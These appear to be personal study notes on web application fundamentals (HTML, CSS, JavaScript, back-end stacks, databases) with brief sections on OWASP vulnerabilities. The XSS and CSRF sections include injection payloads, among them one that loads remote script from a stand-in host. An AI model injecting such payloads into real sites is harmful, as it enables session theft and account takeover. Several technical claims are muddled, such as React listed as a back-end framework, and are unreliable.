







# Introduction

Web apps are interactive applications that run on web servers. There's a client and server aspect, and a front-end vs back-end dynamic.

Websites (static, same for most users) differ from web apps (dynamic, interactive, functional).

Web 1.0 (web sites/static sites) vs Web 2.0 (web applications dynamic content based on user interaction) vs Web 3.0

## Advantages of Web Applications

When everyone accesses a web application, they get the same thing. Whether or not they are on Linux or Windows, they are accessing the same interface. However, resource usage is a concern (they use the resources of the web app as opposed to local resources, web apps are generally slower, etc)

Modern web apps try to be hybrid, splitting workloads between the server and the client.

## Web Security Introduction

https://github.com/OWASP/wstg/tree/master/document/4-Web_Application_Security_Testing

OWASP guide for web security is a valuable starting point

## Methodology

To start reviewing a security, look at the front-end components (source code, html, css, javascript) and look for vulnerabilities (especially in text inputs or uploads, look for XSS, XXE, SQL injection, and so on)

Active Directory can often be vulnerbale to SQL injection to enumerate usernames, which can then be used for a password sprayign attack (try some amount of common passwords for every available username)



# Web Application Layout

Four types of web app infrastructure: client-server, one server, one server many database, many server many database.





Some of the main jobs performed by back end components include:

    Develop the main logic and services of the back end of the web application
    Develop the main code and functionalities of the web application
    Develop and maintain the back end database
    Develop and implement libraries to be used by the web application
    Implement technical/business needs for the web application
    Implement the main APIs for front end component communications
    Integrate remote servers and cloud services into the web application

OWASP Top 10: Injection, broken auth, sensitive data exposure, XML external entities (XXE), broken access control, security misconfiguration, XSS (Cross site scripting), Insecure deserialization, using outdated/vulnerable components, and insufficient logging/monitoring.

# HTML

HTML is like a tree, built up of tags that can have hold attributes like id or class

```
<html>
<head id = 'header'>Page Title</head>
<body>
<h1> Section Header </h1>
<p> Paragraph</p>
</body>
</html>
```

URLs can only accept ASCII coding, which means special characters in a url must be encoded (spaces, percent signs, etc)

```
Usage

The <head> element usually contains elements that are not directly printed on the page, like the page title, while all main page elements are located under <body>. Other important elements include the <style>, which holds the page's CSS code, and the <script>, which holds the JS code of the page, as we will see in the next section.

Each of these elements is called a DOM (Document Object Model). The World Wide Web Consortium (W3C) defines DOM as:

"The W3C Document Object Model (DOM) is a platform and language-neutral interface that allows programs and scripts to dynamically access and update the content, structure, and style of a document."

The DOM standard is separated into 3 parts:

    Core DOM - the standard model for all document types
    XML DOM - the standard model for XML documents
    HTML DOM - the standard model for HTML documents

For example, from the above tree view, we can refer to DOMs as document.head or document.h1, and so on.

Understanding the HTML DOM structure can help us understand where each element we view on the page is located, which enables us to view the source code of a specific element on the page and look for potential issues. We can locate HTML elements by their id, their tag name, or by their class name.

This is also useful when we want to utilize front-end vulnerabilities (like XSS) to manipulate existing elements or create new elements to serve our needs.
```

# CSS - Cascading Style Sheets

Used to define how elements should look by modifying properties (text color, text size, background color, margin, etc) - for example, all text in header of class "section" should be green text with black background.

```
body {
  background-color: black;
}

h1 {
  color: white;
  text-align: center;
}

p {
  font-family: helvetica;
  font-size: 10px;
}
```

CSS is usually used through frameworks (SCSS, Bootstrap, Bulma, etc)

# JavaScript

JavaScript is a language often used in the front-end of a browser.

```
<script>
    document.getElementById("button1").innerHTML = "Changed Text!";
</script>

<script src = "google.com/react.js"></script>
```

In the top example, when the button of id "button1" is pressed, the text of the button changes to "Changed Text!"

More advanced web applications use more than pure JavaScript: frameworks have been developed (like Angular, React, Vue, jQuery)

## Sensitive Data Exposure

There's sometimes useful information when you open the source code of a website (comments, credentials, etc).

## HTML Injection

HTML injection is when you put arbitrary HTML onto a webpage, usually when there is unsanitized user input. For example, we can test it by injecting `<style>` code into it, for example, which can change the way the webpage looks

```
<style> body { background-image: url('https://academy.hackthebox.com/images/logo.svg'); } </style>
```

## XSS
XSS, or cross site scripting, is the injection of JavaScript code into a web application or website. There are 3 main types.



Reflected can be in a search bar (returns to client directly), stored can be in a comment (stored in a web page or database, and loads when the page is accessed) or DOM(when we directly write code to modify the document object model). PortSwigger has great documentation on web security XSS.

`#">`

The above DOM xss should generate an alert with our cookie value, a neat POC.

## CSRF

CSRF or cross-site request forgery attempts to use XSS to allow an unauthenticated user to make calls with the authentication of some other user, usually the web server that is being attacked. For example, we can used stored XSS in a comment to create a payload that changes a password, that is executed whenever the web page is loaded.

`"><script src=//www.example.com/exploit.js></script>`

The above payload utilizes HTML injection, first by closing out the tag, and adding a script tag. This will load and execute whatever JavaScript is contained at www.example.com/exploit.js.

Sanitization (cleaning unexpected or unusual characters out of inputs, like ;<>.,/) and Validation (making sure input is valid) are two methods of mitigating and preventing these vulnerabilities.

# Back-End Servers

Three common components of back-end servers are: web servers (apache2), databases (mySQL), and frameworks (react.JS)

```
LAMP 	Linux, Apache, MySQL, and PHP.

WAMP 	Windows, Apache, MySQL, and PHP.

WINS 	Windows, IIS, .NET, and SQL Server

MAMP 	macOS, Apache, MySQL, and PHP.

XAMPP 	Cross-Platform, Apache, MySQL, and PHP/PERL.
```

## Web Servers

Common HTTP Codes



Web servers accept more than text requests: we can send them JSON data, or upload binary data and transfer files.

Common types of web servers are apache (HTTPD), NGINX, IIS, and so on

## Databases

Used to store content and data, certain trade offs: speed, size, scalability, and cost.

Relational databases are one type of database, and a common software is SQL. Relational databases link pieces of data to each other across tables. 


```
MySQL 	The most commonly used database around the internet. It is an open-source database and can be used completely free of charge

MSSQL 	Microsoft's implementation of a relational database. Widely used with Windows Servers and IIS web servers

Oracle 	A very reliable database for big businesses, and is frequently updated with innovative database solutions to make it faster and more reliable. It can be costly, even for big businesses

PostgreSQL 	Another free and open-source relational database. It is designed to be easily extensible, enabling adding advanced new features without needing a major change to the initial database design
```

Non-relational databases tend to be scalable and flexible, and include the common storage models of: 
```

    Key-Value
    Document-Based
    Wide-Column
    Graph
```


## Development Framework and APIS

```
    Laravel (PHP): usually used by startups and smaller companies, as it is powerful yet easy to develop for.

    Express (Node.JS): used by PayPal, Yahoo, Uber, IBM, and MySpace.

    Django (Python): used by Google, YouTube, Instagram, Mozilla, and Pinterest.

    Rails (Ruby): used by GitHub, Hulu, Twitch, Airbnb, and even Twitter in the past.
```

APIs a way of sending and recieving data to and from databases, servers, etc.

SOAP a common type of API, shares data through XML format.

## Common Web Vulnerabilities

Broken Authentication/Access Control

Malicious File Upload (PHP Backdoor)

Command Injection,

SQL injection,

and other OWASP top 10

## Public Web Vulnerabilities

Exploit databases such as RapidDB, ExploitDB, and Vulnerability Lab provide an easy avenue to look for exploits, especially when we have a specific version number.

We care the most about vulnerabilities that lead to RCE, or remote code execution.

CVSS is the standard of "scoring" the danger of a vulnerability.

## Backend server vulnerabilities

A web server can be inherently vulnerable (see apache2 shell shock vulnerability).